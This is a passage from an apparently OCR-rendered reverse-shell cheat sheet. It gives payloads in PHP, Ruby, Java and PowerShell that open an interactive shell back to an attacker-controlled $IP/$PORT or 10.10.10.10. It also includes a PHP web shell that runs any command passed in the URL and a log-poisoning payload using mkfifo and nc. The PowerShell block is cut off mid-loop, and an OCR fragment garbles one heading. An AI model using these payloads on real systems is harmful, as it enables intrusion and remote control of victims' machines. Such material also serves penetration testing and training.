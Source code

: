 You can also replace `exec` with `shell_exec`  or `system` or `passthru`
```php
php -r '$sock=fsockopen("$IP",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

php\` version to \` escape the string drop to system level
```php
php -r '$sock=fsockopen("10.10.10.10",9001);`sh <&3 >&3 2>&3`;'
```

PHP cmd
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```


## Log Poisoning PHP

```php
<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f') ?>
```

## Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("$IP",$PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/$IP/$PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Powershell 
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 1337);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
```